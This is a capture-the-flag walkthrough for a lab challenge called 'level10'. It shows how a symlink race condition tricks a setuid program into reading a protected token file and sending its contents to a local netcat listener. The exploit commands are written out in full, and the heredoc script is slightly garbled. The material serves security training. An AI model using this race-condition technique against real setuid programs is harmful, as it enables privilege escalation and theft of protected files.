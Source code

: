 # Level10
## Step by step
### 1. Access the `level10` Home Directory
  ```bash
  > ls
  -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
  -rw-------  1 flag10  flag10     26 Mar  5  2016 token
  ```
---
### 2. Understanding the `level10` Program

The `level10` program accepts a file path as an argument and prints the contents of that file to a port listening on `6969`.

  ```bash
  > echo coucou >/tmp/test
  > nc -l localhost 6969

  
  > ./level /tmp/test 127.0.0.1
  coucou # from the nc command
  ```
---
### 3. Handling the `token` File

When you try to pass the `token` file as an argument to `level10`, you will encounter an access restriction:
  ```bash
  > ./level10 ~/token 127.0.0.1
  You don't have access to token
  ```
---
### 4. Exploiting the Access Control

To bypass the access restriction, you need to create a symbolic link and manipulate access:

  ```bash
  > cat <<hey >/tmp/script.sh
  > touch /tmp/tmp;
  > ln -sf /tmp/tmp /tmp/exploit
  > ./level10 /tmp/exploit 127.0.0.1 &
  > ln -sf ~/token /tmp/exploit
  > hey

  > nc -l localhost 6969
  > /tmp/script.sh
  .*( )*.
  XXX
  ```
